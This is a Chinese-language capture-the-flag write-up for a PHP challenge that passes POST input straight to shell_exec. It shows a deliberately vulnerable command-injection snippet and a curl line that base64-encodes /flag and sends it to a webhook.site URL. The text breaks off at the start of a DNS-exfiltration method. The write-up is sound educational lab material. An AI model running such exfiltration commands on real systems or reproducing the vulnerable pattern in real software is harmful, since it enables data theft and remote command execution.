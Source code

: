 通过 shell 执行命令并将完整的输出以字符串的方式返回(有返回值没有回显**)**

**linux 重定向符号:**[**参考文章**](https://www.runoob.com/linux/linux-shell-io-redirections.html)

 command > file  ( 将输出重定向到 file )



### 题解：
```php
 <?php
highlight_file(__FILE__);
shell_exec($_POST['cmd']); 
```

代码很简单，但是 shell_exec()函数不会直接回显，

**方法一:** 可以用重定向

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730732002721-625a02cd-1420-4606-8f41-2e8adc197d23.png)

浏览器打开

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730732072982-02243eb3-94e6-4e37-9667-f2d9f2f3cf85.png)

找到文件，之后 cat /flag

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730732139656-db0c46ad-b693-43ae-b0f3-952727d23709.png)

再次打开 1.txt，得到源码

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730732160660-e598e305-b6b4-411b-8de9-fa6b73ead6b3.png)

**方法二:**使用 curl 外带

进入[ webhook 网站](https://webhook.site/)

会得到一个自己的网址![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731686817280-87a0624f-84ce-4455-8d2b-6d5f409a89ed.png)

按照这样的格式,url 编码之后,post 传参

```plain
curl https://webhook.site/b69846b7-ea9a-42f6-8e7a-04f80fdf35eb/`cat /flag | base64`
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731686302150-eb00aac5-5bee-4f16-bc61-89e82313eb45.png)

回到网站,得到请求了.网址后边的东西解码一下

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731686436635-7aa344c8-bf3c-4998-8023-de01ad0af854.png)

得到 flag

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1731686498904-622d38e6-c2a2-4186-b516-f40f1ca15db6.png)

**方法三:Dnslog 外带**

**在刚才的网站拿到 DNS name**

